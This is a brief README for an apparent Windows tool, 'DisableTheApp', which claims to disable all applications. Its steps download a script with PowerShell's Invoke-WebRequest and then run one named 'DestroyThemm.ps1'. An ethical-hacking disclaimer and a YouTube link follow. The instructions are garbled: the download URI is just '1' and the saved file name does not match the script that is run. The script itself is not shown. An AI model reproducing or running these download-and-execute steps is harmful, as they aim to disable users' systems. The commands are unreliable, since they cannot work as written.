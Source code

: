 # DisableTheApp
Disable All App IN WINDOWS 


# Download the script
```
 Invoke-WebRequest -Uri "1" -OutFile ".ps1"
```


# Run the script
```
./DestroyThemm.ps1
```


# Disclaimer

The content and information provided by GiuCoder is for educational purposes only. The techniques and tools described in any of the content on this platform, including but not limited to code and tutorials, are intended to be used solely for the purpose of learning about ethical hacking and enhancing cybersecurity knowledge.

The use of any of the techniques or tools described in GiuCoder's content for any other purpose, including but not limited to malicious or unauthorized activities, is strictly prohibited.

GiuCoder does not encourage or condone any illegal activities or unethical behavior. Users of this platform are solely responsible for their actions and the consequences of such actions. GiuCoder will not be held liable for any damages resulting from the misuse or improper use of any of the information or techniques provided.

By using GiuCoder, you acknowledge and agree to abide by this disclaimer and the terms of use of this platform.

# Social Media

[Youtube] : [@GiuCoder](https://www.youtube.com/channel/UCFH1zkg-QNOCk-c6mfUgCjA)
